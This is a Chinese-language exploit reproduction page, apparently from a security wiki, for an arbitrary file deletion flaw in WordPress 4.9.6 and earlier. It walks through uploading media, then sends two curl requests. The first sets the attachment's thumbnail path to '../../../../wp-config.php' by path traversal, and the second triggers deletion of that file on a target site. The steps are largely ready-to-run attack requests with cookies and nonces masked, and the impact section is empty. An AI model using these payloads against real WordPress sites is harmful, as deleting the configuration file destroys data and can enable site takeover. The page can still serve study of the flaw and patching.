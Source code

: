 ```yaml
---
title: "Wordpress <= 4.9.6 任意文件删除漏洞"
id: zhfly3261
---
```


# Wordpress <= 4.9.6 任意文件删除漏洞

## 一、漏洞简介

利用条件L：需要进入后台

## 二、漏洞影响

## 三、复现过程

### 添加新媒体

访问http://0-sec.org/wp-admin/upload.php，然后上传图片。

![image](../img/310d024b0359336a0672d29535ea3914.png)

### 将$ meta ['thumb']设置为我们要删除的文件

#### 单击我们在中上传的图像Step 2，并记住图像的ID。

![image](../img/e1d27305d7675aa560ab9a899eaccb10.png)

#### 访问http://0-sec.org/wp-admin/post.php?post=4&action=edit._wpnonce在页面源中查找

![image](../img/7cf13de74d450438c06a74e11b87cb25.png)

#### 发送有效载荷：

```
curl -v 'http://0-sec.org/wp-admin/post.php?post=4' -H 'Cookie: ***' -d 'action=editattachment&_wpnonce=***&thumb=../../../../wp-config.php' 
```

![image](../img/f8833bcb7b0bcc3a333510c9bfc252da.png)

### 发动攻击

#### 在页面源码中查找 _wpnonce

![image](../img/b15ae46cdd5996961cb8b9f185e86107.png)

#### 发送有效载荷

```
curl -v 'http://9c9b.vsplate.me/wp-admin/post.php?post=4' -H 'Cookie: ***' -d 'action=delete&_wpnonce=***' 
```

![image](../img/1f7a8beb95ed396dbaa960f4c13abd6a.png)

#### 刷新页面

![image](../img/5f5aa846c7590defa4cccac0c4e41089.png)